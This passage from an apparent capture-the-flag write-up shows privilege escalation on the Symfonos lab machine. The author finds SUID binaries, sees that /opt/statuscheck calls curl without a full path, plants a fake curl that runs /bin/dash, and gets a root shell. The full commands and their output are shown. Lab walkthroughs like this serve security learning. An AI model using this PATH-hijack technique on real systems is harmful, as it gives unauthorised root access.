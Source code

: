 ```bash
helios@symfonos:/var/www/html/h3l105$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/opt/statuscheck
/bin/mount
/bin/umount
/bin/su
/bin/ping
```
I execute the binary and I see that it's getting the request headers. 

```bash
helios@symfonos:/var/www/html/h3l105$ /opt/statuscheck
HTTP/1.1 200 OK  
Date: Sat, 29 May 2021 18:57:19 GMT 
Server: Apache/2.4.25 (Debian) 
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT 
ETag: "148-58c6b9bb3bc5b" 
Accept-Ranges: bytes  
Content-Length: 328        
Vary: Accept-Encoding       
Content-Type: text/html
```
Analysing the binary with the strings command, I can see that it's executing the curl utility, so I will try to hijack the path.

```bash
helios@symfonos:/var/www/html/h3l105$ strings /opt/statuscheck
...
_ITM_registerTMCloneTable 
GLIBC_2.2.5  
curl -I H 
http://lH 
ocalhostH
...
```
I export my current directory to the **PATH** environment variable, then I redirect with echo the **/bin/dash** command to the curl file, assign execution permissions to it, and finally run the statuscheck binary thus obtaining root access to this machine.

```bash
helios@symfonos:/dev/shm$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
helios@symfonos:/dev/shm$ export PATH=/dev/shm:$PATH
export PATH=/dev/shm:$PATH
helios@symfonos:/dev/shm$ echo $PATH
echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

helios@symfonos:/dev/shm$ echo '/bin/dash' > curl 
helios@symfonos:/dev/shm$ chmod +x curl 
helios@symfonos:/dev/shm$ /opt/statuscheck 
# id
uid=1000(helios) gid=1000(helios) euid=0(root) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
# whoami
root
```

